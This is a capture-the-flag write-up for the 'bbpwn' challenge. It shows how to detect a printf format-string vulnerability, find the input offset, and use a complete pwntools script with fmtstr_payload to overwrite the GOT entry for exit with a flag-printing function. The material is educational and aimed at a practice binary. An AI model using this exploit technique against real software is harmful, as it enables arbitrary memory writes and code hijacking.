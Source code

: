 # bbpwn (pwn)  

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/f080b407-37df-4d1b-97ab-aa0783508e4e)  

Something to take into account is that there is `Partial RELRO`. This means that the `GOT` is writable, which we will abuse in this challenge.  

Let's run the binary  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/6c9dcd0c-9ff6-46bb-8391-fd0c04c1ab24)  

Everytime you see your input reflected, you need to think about `printf` vulnerabilities.  
To quickly test for them, try sending `%x` as input.  

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/49836c54-dca9-48ae-bcf8-7d4b14a2321f)  
As you can see, we are leaking values from the stack.  
I won't go into detail on why these vulnerabilities exist, but if interested read [this](https://ir0nstone.gitbook.io/notes/types/stack/format-string)  

## exploitation  
Pwntools has a very handy `fmtstr_payload` function that we can use to generate format string vulnerability payloads.  
It needs 3 parameters:
##### offset  
the offset of the first formatter we control
we can figure this out by sending something like this:  
`AAAA 1:%x 2:%x 3:%x 4:%x 5:%x 6:%x 7:%x 8:%x 9:%x 10:%x 11:%x 12:%x 13:%x 14:%x 15:%x 16:%x 17:%x 18:%x 19:%x 20:%x 21:%x 22:%x 23:%x 24:%x 25:%x 26:%x 27:%x 28:%x 29:%x 30:%x`
Which I generated using a simple python script.
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/831722b4-f35b-49d4-9279-4cd6513df358)

Notice that offset 10 contains our input, therefore `offset` = 10

##### writes  
a dictionary of the addresses and values to write.  

Let's look at ghidra quickly:  
```c
void main(undefined4 param_1,undefined4 param_2)

{
  int in_GS_OFFSET;
  char local_208 [200];
  char local_140 [300];
  undefined4 local_14;
  undefined *puStack_c;
  
  puStack_c = (undefined *)&param_1;
  local_14 = *(undefined4 *)(in_GS_OFFSET + 0x14);
  puts("Hello baby pwner, whats your name?");
  fflush(stdout);
  fgets(local_208,200,stdin);
  fflush(stdin);
  sprintf(local_140,"Ok cool, soon we will know whether you pwned it or not. Till then Bye %s",
          local_208);
  fflush(stdout);
  printf(local_140);
  fflush(stdout);
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```
Notice that `exit` is being called at the end. Also there is a `flag` function that calls `system("cat flag.txt")`.  
Since `Partial RELRO` is enabled, we can overwrite the GOT entry for `exit` with the address of the `flag` function, so that when `exit` is called, the `flag` function is the one actually called.  

##### numbwritten  
how many bytes are written previous to our input.  
We can manually determine that we are printing 70 bytes before our input.

Therefore putting it all together we have:  
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template 32_new
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or '32_new')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x8048000)

io = start()

first_controlled = 10
numwritten = 70
writes = {exe.got['exit']: exe.sym['_Z4flagv']}

# pwnlib.fmtstr.fmtstr_payload(offset, writes, numbwritten=0, write_size='byte') → str[source]
payload = fmtstr_payload(first_controlled, writes, numbwritten = numwritten)
log.info(len(payload))

io.sendline(payload)

io.interactive()
```

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/57d8cc96-d5fd-4c9f-b571-2f47baecc81b)
